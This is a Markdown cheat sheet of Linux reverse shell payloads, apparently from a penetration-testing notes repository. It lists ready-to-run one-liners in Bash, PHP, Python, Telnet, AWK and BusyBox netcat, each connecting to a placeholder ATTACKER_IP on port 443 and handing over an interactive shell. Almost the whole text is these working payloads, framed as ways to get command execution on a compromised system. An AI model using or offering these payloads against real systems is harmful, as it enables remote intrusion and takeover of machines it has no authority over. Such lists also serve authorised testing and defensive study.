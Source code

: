 # 🌐 Shell Payloads
[Reverse Shell Generator](https://www.revshells.com/)
## 📋 Purpose

**Shell payloads** are commands or scripts that expose a shell for bind or reverse shell connections, enabling remote command execution on a compromised system.

## 🔍 Reverse Shell Payloads (Linux)

### Bash

- **Normal Bash**:
    
    ```bash
    bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
    ```
    
    Redirects interactive shell I/O to a TCP connection.
    
- **Bash Read Line**:
    
    ```bash
    exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done
    ```
    
    Uses file descriptor 5 to execute commands from the socket.
    
- **Bash File Descriptor 196**:
    
    ```bash
    0<&196; exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196
    ```
    
    Uses file descriptor 196 for shell I/O.
    
- **Bash File Descriptor 5**:
    
    ```bash
    bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
    ```
    
    Similar to normal Bash, using file descriptor 5.
    

### PHP

- **Using `exec`**:
    
    ```bash
    php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'
    ```
    
- **Using `shell_exec`**:
    
    ```bash
    php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
    ```
    
- **Using `system`**:
    
    ```bash
    php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");'
    ```
    
- **Using `passthru`**:
    
    ```bash
    php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
    ```
    
- **Using `popen`**:
    
    ```bash
    php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3","r");'
    ```
    
    Each PHP payload opens a socket and executes a shell with different functions.

### Python

- **Using Environment Variables**:
    
    ```bash
    export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
    ```
    
- **Using `subprocess`**:
    
    ```bash
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("bash")'
    ```
    
- **Short Python**:
    
    ```bash
    python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f) for f in (0,1,2)];pty.spawn("bash")'
    ```
    
    Python payloads create socket connections and spawn interactive bash shells.

### Others

- **Telnet**:
    
    ```bash
    TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP 443 0<$TF | sh 1>$TF
    ```
    
    Uses a named pipe and Telnet to connect to the attacker.
    
- **AWK**:
    
    ```bash
    awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
    ```
    
    Uses AWK’s TCP capabilities to execute commands.
    
- **BusyBox**:
    
    ```bash
    busybox nc ATTACKER_IP 443 -e sh
    ```
    
    Uses BusyBox Netcat to execute a shell.
    

## 🛠 Resources

- [Reverse Shell Generator](https://www.revshells.com/)

## ✅ Quick Notes

- **Subprocess Module**: Python module used for managing shell commands and reverse shell connections.
- **PHP Reverse Shell**: Uses `exec`, `shell_exec`, `system`, `passthru`, or `popen` to execute commands via TCP.
- **Python Reverse Shell**: Can use environment variables and socket connections for reverse shells.
- **Payload Types**: Support both bind and reverse shells, varying by OS and tools.